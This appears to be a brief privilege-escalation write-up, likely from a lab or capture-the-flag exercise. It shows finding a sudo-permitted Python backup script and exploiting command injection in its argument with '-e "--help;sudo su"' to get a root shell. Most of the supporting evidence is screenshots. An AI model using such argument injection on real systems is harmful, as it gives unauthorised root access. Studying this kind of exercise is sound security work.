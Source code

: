
sudo -l

<img width="796" alt="image" src="https://user-images.githubusercontent.com/59768512/167270262-887ad0d2-eedc-48c9-a667-8a5d37d74742.png">

can run sudo /usr/bin/python3 /home/user/safe_backup.py with args

see safe_backup.py

<img width="870" alt="image" src="https://user-images.githubusercontent.com/59768512/167270179-3574d9be-a110-491c-8208-d4e76893d452.png">

command injection


--help to statisfy tar 
sudo /usr/bin/python3 /home/user/safe_backup.py -e "--help;sudo su"


![image](https://user-images.githubusercontent.com/59768512/167270335-1135306a-4cfc-4311-a00e-7111c12aeda2.png)
